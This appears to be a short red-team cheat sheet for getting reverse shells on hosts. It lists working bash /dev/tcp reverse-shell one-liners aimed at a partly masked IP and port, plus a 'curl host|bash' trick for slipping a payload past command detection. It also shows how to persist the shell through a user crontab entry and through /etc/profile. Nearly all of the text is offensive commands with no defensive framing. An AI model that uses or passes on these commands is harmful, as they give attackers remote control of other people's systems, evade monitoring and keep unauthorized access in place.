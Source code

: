## Network
- [OpenSSL encryption](https://github.com/Jayway007/Offense-and-Deffense/blob/main/Offense/Red-Team/Execution/Reverse-Shell/Cheatsheet.md#openssl)

## Host
- Use curl to bypass commands detection
  - Set up a web server and write content in :
  ```
  bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
  ```
  - Then execute cmd below to bypass cmd detection:
  ```
  curl 47.xxx.xxx.72|bash
  ```
- Write shell to crontab or profile
  - Write shell content to file _/var/spool/cron/crontabs/username_:
  ```
  */1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1
  
  # minute hour day month week
  ```
  - Or write to _/etc/profile_, the bash will be executed when user open bash window:
  ```
  /bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &
  ```
